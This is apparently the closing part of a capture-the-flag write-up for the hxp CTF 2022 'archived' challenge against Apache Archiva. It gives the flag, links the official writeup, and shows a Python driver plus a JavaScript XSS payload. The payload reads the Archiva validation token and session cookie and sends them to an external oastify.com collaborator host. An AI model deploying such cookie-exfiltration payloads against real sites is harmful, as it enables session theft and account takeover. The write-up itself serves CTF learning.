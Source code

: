 ```python
upload()
xss()
print(subprocess.check_output(f"""nc {host.split(":")[0]} 9420""", shell=True))
```

```javascript
export async function run(host) {
    let archiva = document.cookie.split(";").filter(e => e.indexOf('archiva') != -1)[0].trim().split("=")[1]
    let archiva_parsed = JSON.parse(decodeURIComponent(archiva))["validationToken"]
    let session = document.cookie.split(";").filter(e => e.indexOf('JSESSION') != -1)[0].trim()


    fetch(`http://uxv39e6gvji5grql1rqnf9y3hunlbmzb.oastify.com/parsed/${encodeURIComponent(archiva_parsed)}/session/${encodeURIComponent(session)}`, {
        mode: 'no-cors'
    });
}
```

**flag: hxp{xSS\_h3re\_Xs5\_ther3\_X5S\_ev3rywhere}**

Note 1: After reading the hxp team writeup I realized I could just do the last steps through python which is extremely obvious. 😅 [hxp-CTF-2022-archived](https://hxp.io/blog/100/hxp-CTF-2022-archived/)
